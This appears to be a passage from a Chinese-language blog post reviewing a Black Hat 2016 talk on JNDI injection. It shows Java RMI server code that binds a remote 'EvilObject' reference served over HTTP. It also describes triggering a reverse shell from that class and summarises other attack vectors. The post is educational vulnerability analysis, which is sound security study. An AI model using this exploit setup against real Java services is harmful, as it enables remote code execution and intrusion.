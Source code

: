 `EvilObject` 类的构造函数中包含了执行系统命令反弹 Shell 的代码，一会儿当 JNDI 注入成功触发时会被执行。

这里还需要一个 RMI 服务绑定一个相关的引用类（`RMIService.java`）：

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.Registry;
import java.rmi.registry.LocateRegistry;

public class RMIService {
    public static void main(String args[]) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference refObj = new Reference("EvilObject", "EvilObject", "http://127.0.0.1:8080/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
        System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:1099/refObj'");
        registry.bind("refObj", refObjWrapper);
    }
}
```

前面也说到了对象实例要能成功绑定在 RMI 服务上，必须直接或间接的实现 `Remote` 接口，这里 `ReferenceWrapper` 就继承于 `UnicastRemoteObject` 类并实现了 `Remote` 接口。

这里将 `RMIService.java` 和 `JNDIClient.java` 放在同一目录下，将 `EvilObject.java` 放在另一个目录下（为防止漏洞复现过程中应用端实例化 EvilObject 对象时从 CLASSPATH 当前路径找到编译好的字节代码，而不去远端进行下载的情况发生）,编译这三个文件，并在不同窗口下执行命令：

![]({{ site.url }}/public/img/article/2016-08-19-jndi-injection-from-theory-to-apply-blackhat-review/6.png)

成功执行后会在事先监听的端口上获取到反弹的 Shell。这里的代码只是为了方便还原漏洞场景，其他比较细节的东西这里就不讨论了。看不懂的可以多理解下前面那幅漏洞利用过程图例，这样结合代码能够更快速的掌握漏洞原理和关键点。

### 0x04 简单总结

由于 Java 知识能力有限，原议题中所涉及到的一些细节可能剖析得不太准确。文中只是简单地把 JNDI 注入的形成原理和如何利用 JNDI 注入进行 RCE 进行了一个说明，具体的攻击方式也只是谈到了用 RMI Reference 进行远程代码执行，原议题内容中还介绍了一些其它的攻击向量能够达到远程代码执行的效果，例如反序列化触发 JNDI 注入、使用 Remote Locations 进行代码执行和一些安全机制的绕过等等。

像今年 1 月份有关 Spring 框架反序列化导致远程代码执行的这个漏洞最根本原理就是利用了 JNDI 注入，有关详情可以参考 [@随风](https://www.iswin.org/) 师傅的文章 - [《Spring framework deserialization RCE漏洞分析以及利用》](https://www.iswin.org/2016/01/24/Spring-framework-deserialization-RCE-%E5%88%86%E6%9E%90%E4%BB%A5%E5%8F%8A%E5%88%A9%E7%94%A8/)，更多关于该议题的内容还是翻阅下原 Paper 比较好。

（世上漏洞如海，我愿略知一二）

### 参考

* [https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)
* [https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf)
* [http://zerothoughts.tumblr.com/post/137769010389/fun-with-jndi-remote-code-injection](http://zerothoughts.tumblr.com/post/137769010389/fun-with-jndi-remote-code-injection)
* [https://docs.oracle.com/javase/8/docs/technotes/guides/rmi/codebase.html](https://docs.oracle.com/javase/8/docs/technotes/guides/rmi/codebase.html)
* [https://www.iswin.org/2016/01/24/Spring-framework-deserialization-RCE-分析以及利用](https://www.iswin.org/2016/01/24/Spring-framework-deserialization-RCE-分析以及利用)
